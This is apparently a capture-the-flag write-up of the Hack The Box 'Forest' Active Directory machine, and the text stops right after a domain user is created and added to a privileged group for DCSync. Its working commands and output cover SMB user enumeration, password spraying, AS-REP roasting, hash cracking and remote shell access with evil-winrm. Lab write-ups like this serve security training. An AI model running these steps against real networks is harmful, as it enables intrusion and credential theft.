




# Forest - Easy box

Forest is an Active Directory box. The initial network enumeration with `nmap` discovered a lot of open ports, so there were a lot to start from. However, I decided to start from the `SMB` service & I was able to successfully enumerate users & the password policy applied to the AD Environment. The password policy revealed that the `Account Lockout Threshold` is set to `None`, which means that there is no limit to incorrect authentication attempts in the AD Environment giving us the ability to `Password Spray` the users that I found through `SMB`. However, the password spray attempt came out empty & I didn't get any successfull username:password combination. Moving further, I was able to retrieve the NTLM hash for the user `svc-alfresco` by utilizing `impacket-GetNPUsers` utility. I was able to achieve code execution on the host machine through `Powershell Remoting`. After getting into the network, I used `BloodHound` to try to look for lateral movement or privilege escalation vectors. Turns out that the user `svc-alfresco` was a member of the `Account Operators` group which had `GenericAll` privilege over the `Exchange Windows Permissions` group which had `WriteDacl` rights on the domain. Therefore, I was able to create a user, add it to the `Exchange Windows Permissions` group & perform `DCSync` attack to obtain the administrator hash along with a lot of other accounts.

## Nmap scan results

I started off with a usual nmap scan using a few flags such as `-p-` to scan all 65,535 TCP ports, `-sVC` to execute default scripts & retrieve the version of the services running on the system, `oA` to output the nmap scan results in all available formats & write them to a directory I created on my local machine `nmap` with the file name being `forest`, `-T4` to speed up the nmap scan & `-vvv` to output verbose which gives me things like `TTL` & shows me the open ports as the scan runs.
```
Starting Nmap 7.95 ( https://nmap.org ) at 2026-08-16 19:16 EDT
NSE: Loaded 157 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 19:16
Completed NSE at 19:16, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 19:16
Completed NSE at 19:16, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 19:16
Completed NSE at 19:16, 0.00s elapsed
Initiating Ping Scan at 19:16
Scanning 10.129.44.222 [4 ports]
Completed Ping Scan at 19:16, 0.05s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 19:16
Completed Parallel DNS resolution of 1 host. at 19:16, 0.01s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 19:16
Scanning 10.129.44.222 [65535 ports]
Discovered open port 135/tcp on 10.129.44.222
Discovered open port 139/tcp on 10.129.44.222
Discovered open port 53/tcp on 10.129.44.222
Discovered open port 445/tcp on 10.129.44.222
Discovered open port 49666/tcp on 10.129.44.222
Discovered open port 47001/tcp on 10.129.44.222
Discovered open port 49667/tcp on 10.129.44.222
Discovered open port 49681/tcp on 10.129.44.222
Discovered open port 49664/tcp on 10.129.44.222
Discovered open port 49665/tcp on 10.129.44.222
Discovered open port 49669/tcp on 10.129.44.222
Discovered open port 636/tcp on 10.129.44.222
Discovered open port 9389/tcp on 10.129.44.222
Discovered open port 49698/tcp on 10.129.44.222
Discovered open port 5985/tcp on 10.129.44.222
Discovered open port 88/tcp on 10.129.44.222
Discovered open port 3269/tcp on 10.129.44.222
Discovered open port 593/tcp on 10.129.44.222
Discovered open port 49677/tcp on 10.129.44.222
Discovered open port 49676/tcp on 10.129.44.222
Discovered open port 389/tcp on 10.129.44.222
Discovered open port 464/tcp on 10.129.44.222
Discovered open port 3268/tcp on 10.129.44.222
Completed SYN Stealth Scan at 19:17, 28.60s elapsed (65535 total ports)
Initiating Service scan at 19:17
Scanning 23 services on 10.129.44.222
Completed Service scan at 19:18, 54.00s elapsed (23 services on 1 host)
NSE: Script scanning 10.129.44.222.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 19:18
Completed NSE at 19:18, 9.82s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 19:18
Completed NSE at 19:18, 0.61s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 19:18
Completed NSE at 19:18, 0.00s elapsed
Nmap scan report for 10.129.44.222
Host is up, received echo-reply ttl 127 (0.017s latency).
Scanned at 2026-08-16 19:16:49 EDT for 94s
Not shown: 65512 closed tcp ports (reset)
PORT      STATE SERVICE      REASON          VERSION
53/tcp    open  domain       syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2026-08-16 23:24:13Z)
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap         syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds syn-ack ttl 127 Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?    syn-ack ttl 127
593/tcp   open  ncacn_http   syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped   syn-ack ttl 127
3268/tcp  open  ldap         syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped   syn-ack ttl 127
5985/tcp  open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf       syn-ack ttl 127 .NET Message Framing
47001/tcp open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49676/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49677/tcp open  ncacn_http   syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49681/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49698/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 29450/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 36188/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 58423/udp): CLEAN (Timeout)
|   Check 4 (port 42729/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time:
|   date: 2026-08-16T23:25:02
|_  start_date: 2026-08-16T23:22:17
|_clock-skew: mean: 2h26m49s, deviation: 4h02m31s, median: 6m48s
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2026-08-16T16:25:05-07:00
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 19:18
Completed NSE at 19:18, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 19:18
Completed NSE at 19:18, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 19:18
Completed NSE at 19:18, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 93.58 seconds
           Raw packets sent: 66390 (2.921MB) | Rcvd: 65792 (2.634MB)
```

The nmap scan revealed the domain info as well (in the ldap service). So I went ahead & added it to my `/etc/hosts` file.


## Found SMB port open

I found that the SMB service is running on the box, so I decided to start there. I first tried null session login on the box. which resulted in a success. However, I couldn't list shares on a null session logon. 

```
nxc smb 10.129.44.222 -u '' -p ''
SMB         10.129.44.222   445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True) (Null Auth:True)

nxc smb 10.129.44.222 -u '' -p '' --shares
SMB         10.129.44.222   445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         10.129.44.222   445    FOREST           [+] htb.local\: 
SMB         10.129.44.222   445    FOREST           [-] Error enumerating shares: STATUS_ACCESS_DENIED
```

Therefore, I then tried to use the `Guest` account to logon & list the shares, which showed that the account is disabled.
```
nxc smb 10.129.44.222 -u 'Guest' -p '' --shares
SMB         10.129.44.222   445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         10.129.44.222   445    FOREST           [-] htb.local\Guest: STATUS_ACCOUNT_DISABLED
```

After getting nothing from the above methods, I tried to bruteforce the users using the `--users` flag using `NetExec` which uses `rid` to brute force users.

```
nxc smb 10.129.44.222 -u '' -p '' --users
SMB         10.129.44.222   445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         10.129.44.222   445    FOREST           [+] htb.local\:
SMB         10.129.44.222   445    FOREST           -Username-                    -Last PW Set-       -BadPW- -Description-             
SMB         10.129.44.222   445    FOREST           Administrator                 2021-08-31 00:51:58 0       Built-in account for administering the computer/domain
SMB         10.129.44.222   445    FOREST           Guest                         <never>             0       Built-in account for guest access to the computer/domain
SMB         10.129.44.222   445    FOREST           krbtgt                        2019-09-18 10:53:23 0       Key Distribution Center Service Account
SMB         10.129.44.222   445    FOREST           DefaultAccount                <never>             0       A user account managed by the system.
SMB         10.129.44.222   445    FOREST           $331000-VK4ADACQNUCA          <never>             0
SMB         10.129.44.222   445    FOREST           SM_2c8eef0a09b545acb          <never>             0
SMB         10.129.44.222   445    FOREST           SM_ca8c2ed5bdab4dc9b          <never>             0
SMB         10.129.44.222   445    FOREST           SM_75a538d3025e4db9a          <never>             0
SMB         10.129.44.222   445    FOREST           SM_681f53d4942840e18          <never>             0
SMB         10.129.44.222   445    FOREST           SM_1b41c9286325456bb          <never>             0
SMB         10.129.44.222   445    FOREST           SM_9b69f1b9d2cc45549          <never>             0
SMB         10.129.44.222   445    FOREST           SM_7c96b981967141ebb          <never>             0
SMB         10.129.44.222   445    FOREST           SM_c75ee099d0a64c91b          <never>             0
SMB         10.129.44.222   445    FOREST           SM_1ffab36a2f5f479cb          <never>             0
SMB         10.129.44.222   445    FOREST           HealthMailboxc3d7722          2019-09-23 22:51:31 0
SMB         10.129.44.222   445    FOREST           HealthMailboxfc9daad          2019-09-23 22:51:35 0
SMB         10.129.44.222   445    FOREST           HealthMailboxc0a90c9          2019-09-19 11:56:35 0
SMB         10.129.44.222   445    FOREST           HealthMailbox670628e          2019-09-19 11:56:45 0
SMB         10.129.44.222   445    FOREST           HealthMailbox968e74d          2019-09-19 11:56:56 0
SMB         10.129.44.222   445    FOREST           HealthMailbox6ded678          2019-09-19 11:57:06 0
SMB         10.129.44.222   445    FOREST           HealthMailbox83d6781          2019-09-19 11:57:17 0
SMB         10.129.44.222   445    FOREST           HealthMailboxfd87238          2019-09-19 11:57:27 0
SMB         10.129.44.222   445    FOREST           HealthMailboxb01ac64          2019-09-19 11:57:37 0
SMB         10.129.44.222   445    FOREST           HealthMailbox7108a4e          2019-09-19 11:57:48 0
SMB         10.129.44.222   445    FOREST           HealthMailbox0659cc1          2019-09-19 11:57:58 0
SMB         10.129.44.222   445    FOREST           sebastien                     2019-09-20 00:29:59 0
SMB         10.129.44.222   445    FOREST           lucinda                       2019-09-20 00:44:13 0
SMB         10.129.44.222   445    FOREST           svc-alfresco                  2026-08-16 23:28:29 0
SMB         10.129.44.222   445    FOREST           andy                          2019-09-22 22:44:16 0
SMB         10.129.44.222   445    FOREST           mark                          2019-09-20 22:57:30 0
SMB         10.129.44.222   445    FOREST           santi                         2019-09-20 23:02:55 0
SMB         10.129.44.222   445    FOREST           [*] Enumerated 31 local users: HTB
```

The user brute force gave us so many default accounts such as `HealthMailbox...` so I went ahead & trimmed them out of the output & added the remaining users to a file which I named `users.txt`.

```
cat users.txt 
Administrator
krbtgt      
sebastien
lucinda
svc-alfresco
andy
mark
santi
```

I also decided to put the `Administrator` & `krbtgt` users at the end of the users list, because chances are very slim that I will actually find a password for the admin & krbtgt accounts on the box, which made the final `users.txt` look like the following:

```
cat users.txt
sebastien
lucinda
svc-alfresco
andy
mark
santi
Administrator
krbtgt
```


I then thought of performing a `Password Spray` attack on all the users that I found. However, it is best practice to retrieve & look at the password policy first to see if we can, knowingly or unknowingly, lock out accounts during the process.

```
nxc smb 10.129.44.222 -u '' -p '' --pass-pol
SMB         10.129.44.222   445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         10.129.44.222   445    FOREST           [+] htb.local\: 
SMB         10.129.44.222   445    FOREST           [+] Dumping password info for domain: HTB
SMB         10.129.44.222   445    FOREST           Minimum password length: 7
SMB         10.129.44.222   445    FOREST           Password history length: 24
SMB         10.129.44.222   445    FOREST           Maximum password age: Not Set
SMB         10.129.44.222   445    FOREST           
SMB         10.129.44.222   445    FOREST           Password Complexity Flags: 000000
SMB         10.129.44.222   445    FOREST               Domain Refuse Password Change: 0
SMB         10.129.44.222   445    FOREST               Domain Password Store Cleartext: 0
SMB         10.129.44.222   445    FOREST               Domain Password Lockout Admins: 0
SMB         10.129.44.222   445    FOREST               Domain Password No Clear Change: 0
SMB         10.129.44.222   445    FOREST               Domain Password No Anon Change: 0
SMB         10.129.44.222   445    FOREST               Domain Password Complex: 0
SMB         10.129.44.222   445    FOREST           
SMB         10.129.44.222   445    FOREST           Minimum password age: 1 day 4 minutes 
SMB         10.129.44.222   445    FOREST           Reset Account Lockout Counter: 30 minutes 
SMB         10.129.44.222   445    FOREST           Locked Account Duration: 30 minutes 
SMB         10.129.44.222   445    FOREST           Account Lockout Threshold: None
SMB         10.129.44.222   445    FOREST           Forced Log off Time: Not Set
```

As we can see, the `Account Lockout Threshold` is set to None, so we are good to go for the password spray. I also noticed the `Minimum password length` is set to 7. So, I went ahead & created a `passwords.list` file which would contain the most common words used in a password. I took help from `IppSec`'s walkthrough for the box to create the password list. He did a bunch of things & everything he did made sense & seemed important. So, to breakthrough & understand what he did & why he did it, I made some points to myself for future references. I took a note of the following things to create a password list.

- All Months (January through December)
- All Seasons (Autumn, Fall, Summer, Spring, Winter)
- Some common words related to the box (Such as Forest [Name of the box], htb, Secret, Password)
- Appended Years at the end of every password, which was again related to the box
- Finally, used `hashcat` rules to convert these common words into actually usable passwords

Therefore, I also ended up creating the same password list as `IppSec` & also using the same methods he presented in his walkthrough. My initial `passwords.txt` file looked like this:

```
January
February
March
April
May
June
July
August
September
October
November
December
Summer
Winter
Spring
Autumn
Fall
Forest
htb
Secret
Password
```

I then appended the years at the end of every passwords which were related to the box. Since the box was released on `October 12, 2019`, I appended the years `2019` & `2020` along with an exclamation mark (`!`) after every password in the passwords.txt file.



```
for i in $(cat passwords.txt); do echo ${i}; echo ${i}2019; echo ${i}2020; echo ${i}\! done > passwords.list
head -n 10 passwords.list
January
January2019
January2020
January!
February
February2019
February2020
February!
March
March2019
```

Afterwards, I used hashcat rules to create my final list of passwords & for that purpose, I chose to go with 2 rules, which again `IppSec` used in his walkthrough, namely `best64.rule` & `toggle1.rule`. Also, since those rules might have some common rules, I used `sort -u` to make sure I do not have redundant passwords. Finally, I only needed passwords having length of at least `7` characters as was found in the password policy for the box.

```
hashcat passwords.list -r /usr/share/hashcat/rules/best64.rule -r /usr/share/hashcat/rules/toggles1.rule --force --stdout | sort -u | awk 'length($0) >=7' | wc -l
26674
```

After confirming the final password count, I went ahead & wrote them into a new temporary file which I named `tmp`.

```
hashcat passwords.list -r /usr/share/hashcat/rules/best64.rule -r /usr/share/hashcat/rules/toggles1.rule --force --stdout | sort -u > tmp
mv tmp pwlist.txt
```

Now, I was ready to perform a password spray attack using `NetExec` & I also decided to use `grep` to look for the `[+]` symbol which `NetExec` shows for a successfull password grab.

```
nxc smb 10.129.44.222 -u users.txt -p pwlist.txt --continue-on-success | grep '[+]'
```

Since the password list that I created was quite long (26,674 for 8 users), it would take quite a while to go through the entire `pwlist.txt` file and try each & every `username:password` combination. Therefore, while the `NetExec` runs in the background, I tried to see if I can catch the NTLM hashes of any user I can manually, using the impacket toolkit.

I started off with using `impacket-GetNPUsers` to get the TGT for users who don't require `Kerberos Pre authentication`. I used the flags `-request` to request the TGTs for users on the domain & `-format` to ask the tool to output the hashes in `hashcat` format to make the password cracking process easier.

```
impacket-GetNPUsers htb.local/ -request -format hashcat
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC      
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2026-08-16 22:16:53.659576  2026-08-16 22:17:22.816001  0x410200 


/usr/share/doc/python3-impacket/examples/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
$krb5asrep$23$svc-alfresco@HTB.LOCAL:181633b1544f8a3268e643b6c455651c$f3dd83f4796a0637a6caec6f4f91e3aeaa951979f86a9b1b118564c8839e1be720d97ed38782d145345f7899e603f9aacd2c3191e84f9d2c661589e48f6cbdf6c72cdfbcc531c81b3464678d5833219b99547c94569cf853533d452059d396e7e25ab8589a46b67cd89186427d0a87c9a1235e02be1566337316c6a97f5595d51906241a50797cc4951e2728a0b8ff86797c7013dc393c78f53db765c46c0d0f66a32d50548b61656d64ad6bd02c860d2d33c005a8dc4d66516e60a3e1af3ea811207f1c5d1fddd36973c9fb251b4c626ae25cf518f9aa6c82a739e8b0319cb114216e386a36
```

Fortunately, I found a hit on the user `svc-alfresco`. I added the hash I found using the tool `impacket-GetNPUsers` to a file I created on my local machine which I called `hashes.txt`

```
echo '$krb5asrep$23$svc-alfresco@HTB.LOCAL:181633b1544f8a3268e643b6c455651c$f3dd83f4796a0637a6caec6f4f91e3aeaa951979f86a9b1b118564c8839e1be720d97ed38782d145345f7899e603f9aacd2c3191e84f9d2c661589e48f6cbdf6c72cdfbcc531c81b3464678d5833219b99547c94569cf853533d452059d396e7e25ab8589a46b67cd89186427d0a87c9a1235e02be1566337316c6a97f5595d51906241a50797cc4951e2728a0b8ff86797c7013dc393c78f53db765c46c0d0f66a32d50548b61656d64ad6bd02c860d2d33c005a8dc4d66516e60a3e1af3ea811207f1c5d1fddd36973c9fb251b4c626ae25cf518f9aa6c82a739e8b0319cb114216e386a36' > hashes.txt
```

Moving further towards cracking the hash, I first needed to find the mode hashcat uses & starts with `$krb5asrep`. I quickly went to hashcat's wiki to get the example_hases & found that the mode for the hash I caught is `18200`.



```
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #1: cpu-haswell-Intel(R) Core(TM) i7-14650HX, 2896/5857 MB (1024 MB allocatable), 16MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 4 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$krb5asrep$23$svc-alfresco@HTB.LOCAL:181633b1544f8a3268e643b6c455651c$f3dd83f4796a0637a6caec6f4f91e3aeaa951979f86a9b1b118564c8839e1be720d97ed38782d145345f7899e603f9aacd2c3191e84f9d2c661589e48f6cbdf6c72cdfbcc531c81b3464678d5833219b99547c94569cf853533d452059d396e7e25ab8589a46b67cd89186427d0a87c9a1235e02be1566337316c6a97f5595d51906241a50797cc4951e2728a0b8ff86797c7013dc393c78f53db765c46c0d0f66a32d50548b61656d64ad6bd02c860d2d33c005a8dc4d66516e60a3e1af3ea811207f1c5d1fddd36973c9fb251b4c626ae25cf518f9aa6c82a739e8b0319cb114216e386a36:s3rvice

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$svc-alfresco@HTB.LOCAL:181633b1544f8a...386a36
Time.Started.....: Sun Aug 16 22:23:36 2026 (2 secs)
Time.Estimated...: Sun Aug 16 22:23:38 2026 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  3085.4 kH/s (1.24ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 4087808/14344385 (28.50%)
Rejected.........: 0/4087808 (0.00%)
Restore.Point....: 4079616/14344385 (28.44%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: s9039554h -> s2704081
Hardware.Mon.#1..: Util: 37%

Started: Sun Aug 16 22:23:26 2026
Stopped: Sun Aug 16 22:23:39 2026
```

I was able to successfully crack the password through hashcat & the password turned out to be `s3rvice`. I added the password I cracked for the user `svc-alfresco` to `creds.txt`.

```
echo 'svc-alfresco:s3rvice' > creds.txt
```

I was able to get a remote shell on the box by using `evil-winrm`.

```
evil-winrm -i 10.129.44.222 -u 'svc-alfresco' -p 's3rvice'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents>
```

I was able to retrieve the user flag for this box which was located at `C:\Users\svc-alfresco\Desktop`.

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> dir


    Directory: C:\Users\svc-alfresco\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        8/16/2026   4:23 PM             34 user.txt


```

Moving further, I tried to use Bloodhound to map out the Domain Objects & their ACL rights. I started off with `bloodhound-ce-python` to retrieve bloodhound data in a compressed zip file.

```
bloodhound-ce-python -d htb.local -c All -u svc-alfresco -p s3rvice --zip -ns 10.129.95.210
INFO: BloodHound.py for BloodHound Community Edition
INFO: Found AD domain: htb.local
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (FOREST.htb.local:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: FOREST.htb.local
INFO: Testing resolved hostname connectivity dead:beef::9d7:f15f:fcb9:8d0d
INFO: Trying LDAP connection to dead:beef::9d7:f15f:fcb9:8d0d
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: FOREST.htb.local
INFO: Testing resolved hostname connectivity dead:beef::9d7:f15f:fcb9:8d0d
INFO: Trying LDAP connection to dead:beef::9d7:f15f:fcb9:8d0d
INFO: Found 32 users
INFO: Found 76 groups
INFO: Found 2 gpos
INFO: Found 15 ous
INFO: Found 20 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: EXCH01.htb.local
INFO: Querying computer: FOREST.htb.local
INFO: Done in 00M 06S
INFO: Compressing output into 20260817101907_bloodhound.zip
```

After uploading the zip file to bloodhound, the first thing I did was to mark the user `svc-alfresco` as owned. Doing so will help me find my way through the AD environment.



After querying for `Shortest Path to Domain Admins` in bloodhound, I saw quite an interesting path.



- I noticed that the user `svc-alfresco` is a member of the group `Exchange Windows Permissions`.
- I also noticed that the user `svc-alfresco` is a member of the group `Account Operators`.
- I noticed that the group `Account Operators` has `GenericAll` privilege over `Exchange Windows Permissions` group.
- I also noticed that the group `Exchange Windows Permissions` has `WriteDAcl` over the entire domain.

All these information lead me to conclude that I can create a user on the domain, due to the `GenericAll` privilege, give the user I created `DCSync` rights, due to `WriteDAcl` rights & perform a `DCSync` attack to retrieve the administrator hash.

Therefore, I went down the following path to obtain the administrator hash.

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user akku Password /add /domain
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions" akku /add
The command completed successfully.

